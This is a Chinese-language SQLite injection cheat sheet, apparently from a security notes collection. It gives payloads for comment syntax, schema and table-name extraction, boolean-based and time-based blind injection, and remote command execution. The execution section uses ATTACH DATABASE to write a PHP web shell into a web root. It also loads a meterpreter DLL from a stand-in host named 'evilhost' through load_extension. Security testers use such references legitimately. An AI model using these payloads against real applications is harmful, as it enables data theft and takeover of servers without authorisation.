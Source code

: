 ##### 注释符
  	--
	/**/
##### 版本
	select sqlite_version();
##### 字符型注入 - 获取数据库结构
	SELECT sql FROM sqlite_schema
##### 整数/字符串型 - 提取表名
	SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
	使用limit X+1 offset X，提取所有表
##### 整数/字符串型 - 提取列名
	SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
	SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
##### 布尔类型 - 计算表数量
	and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
##### 布尔类型 - 枚举表名
	and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
##### 布尔类型 - 获取数据
	and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
##### 时间类型
	AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
##### 远程执行命令 - ATTACH DATABASE
	ATTACH DATABASE '/var/www/lol.php' AS lol;
	CREATE TABLE lol.pwn (dataz text);
	INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
##### 远程执行命令 - Load_extension
	UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
	默认情况下，此组件是禁用的